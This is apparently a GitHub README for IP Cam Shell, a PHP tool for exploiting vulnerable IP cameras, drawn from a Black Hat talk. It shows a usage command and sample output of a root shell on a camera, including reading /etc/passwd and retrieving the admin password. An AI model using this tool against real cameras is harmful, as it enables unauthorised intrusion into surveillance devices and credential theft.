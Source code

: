 IP Cam Shell
=======

IPCS is a command line script for testing and exploiting a wide range of IP cameras as demonstrated by Craig Heffner in "Exploiting Surveillance Cameras Like a Hollywood Hacker". See the slides here: https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf

Requirements
=======

 * PHP 5
 * A distribution of Linux. I haven't and won't test this on Windows.

Usage
=======

Using IPCS is pretty straight forward. You pass the URL to ipcs.php via the -u option. 

```
$ php ipcs.php -u http://192.168.0.3:8080
```

If the camera is vulnerable you'll be dropped in to a "shell" as root and be able to exploit the camera further.

```
$ php ipcs.php -u http://192.168.0.3:8080
Those who do not understand UNIX are condemned to reinvent it, poorly. — Henry Spencer
ipcamshell>
```

It's very much like being logged in to a stripped down Unix server as root.

```
ipcamshell> whoami
root
ipcamshell> id
uid=0(root) gid=0(root)
ipcamshell> ls /
bin
dev
etc
lib
linuxrc
mnt
opt
proc
sbin
scripts
tmp
usr
var
ipcamshell> cat /etc/passwd
root:x:0:0:Linux User,,,:/:/bin/sh
```

Of course it wouldn't be very fun without the ability to login and view the camera... 

```
ipcamshell> getadminpass
Username: admin
Password: hunter2
```

`quit`, `exit`, and `^C` also work to kill the process.

If the camera isn't vulnerable, the server isn't up, or the internet hates you, you'll recieve the following message:

```
Sorry, the server specified isn't vulnerable.
```

Note
=======
I do not claim the description or purpose of this tool to be 100% accurate. If you see anything which is incorrect in this document, please submit a pull request or open a new issue.
